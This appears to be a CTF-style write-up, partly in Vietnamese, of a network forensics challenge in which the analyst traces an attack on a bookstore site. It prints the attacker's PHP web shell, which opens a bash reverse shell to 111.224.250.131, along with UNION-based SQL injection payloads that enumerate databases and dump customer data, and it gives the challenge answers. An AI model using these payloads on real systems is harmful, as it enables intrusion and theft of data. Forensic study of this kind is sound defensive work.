 # Web Investigation

> As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

> Tools:

>    Wireshark , Network Miner


## Q1: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?

+ để checking toàn diện về tiếp bị trong traffic network => conversations

=> 2 ip này đang giao tiếp với nhau nhiều nhất để sâu hơn ta sẽ check tcp connection của nó 

  ![image](https://github.com/user-attachments/assets/75c7980a-0cef-460e-908e-e91f1a26e3d4)

+ để điều tra ta có attacker có vẻ đang khai thác 1 số lỗ hổng như : sql injection , file uploads , fuzz dns

      <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

=> đây là file NVri2vhp.php đã upload script có vẻ đang tạo kết nối tcp listen tại host 111.224.250.131 => file upload vuln 

![image](https://github.com/user-attachments/assets/635e933f-4da7-4366-9337-c97a9a8714e0)

=> Anwser: 111.224.250.131

## Q2: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?

=> dùng iplocation lookup : check với ip 111.224.250.131

![image](https://github.com/user-attachments/assets/04d75a0b-17b4-490e-ae0f-121d18d21f21)

=> City: Shijiazhuang

## Q3: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?

+ xác định vị trí của script bị inject vào param có thể gây ra lỗ hổng

![image](https://github.com/user-attachments/assets/4dd94621-6c89-463f-98e1-aed216e92575)

=> ta có thể thấy vị trí trên URI đó là search.php?search=' đang test lỗ hổng sql => respond 500 server 

=> Anwser: search.php 

## Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?

+ xác định lần tấn công đầu tiên trả về respond 200 OK => /search.php?search=book%20and%201=1;%20--%20-

![image](https://github.com/user-attachments/assets/f9250720-75b7-43c2-b3e0-ec432d8a36d1)

=> Anwser: /search.php?search=book%20and%201=1;%20--%20- 

## Q5: Can you provide the complete request URI that was used to read the web server available databases?

=> câu này hiểu xem sqli có thể extract URi có thê web server available databases injection vào param   

![image](https://github.com/user-attachments/assets/081be448-c9da-4fe0-a13b-a2bc8b7acda3)

```/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-```

=> Anwser: /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-

## Q6: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

+ table name chứa users data là customers truy vấn ra tài khoản của website 

![image](https://github.com/user-attachments/assets/80ba8f67-c0c6-4fee-b95a-0ece62281721)

    book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,address,email,first_name,id,last_name,phone)),0x7176706a71) FROM bookworld_db.customers-- -

=> Anwser: customers

## Q7: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?

+ attacker đã tìm kiếm trong directory admin nơi mà chứa các thông tin mật như username, password của user cũng như admin

![image](https://github.com/user-attachments/assets/2408f3e6-56c7-4458-915a-6e64b5c5e180)

=> Answer: /admin/

## Q8: Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?

> network Minner tập trung vào việc trích xuất và phân bố những dữ liệu cụ thể từ các gói tin

![image](https://github.com/user-attachments/assets/f5cf8cf7-fe47-4891-95f8-16266c1b8ef2)

> ta thấy credentials atttacker là  username admin và password admin123! được sử dụng cuối cùng và sau đó kẻ tấn công đã truy cập được vào

=> admin:admin123!

## Q9: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

+ Như mình đã tìm được ở Q1 thì file được upload lên là NVri2vhp.php nhằm tạo backdoor để sử dụng các câu lệnh từ xa

![image](https://github.com/user-attachments/assets/a01b58ed-bbfe-4935-b943-e7f99b0e8285)

=> Answer: NVri2vhp.php
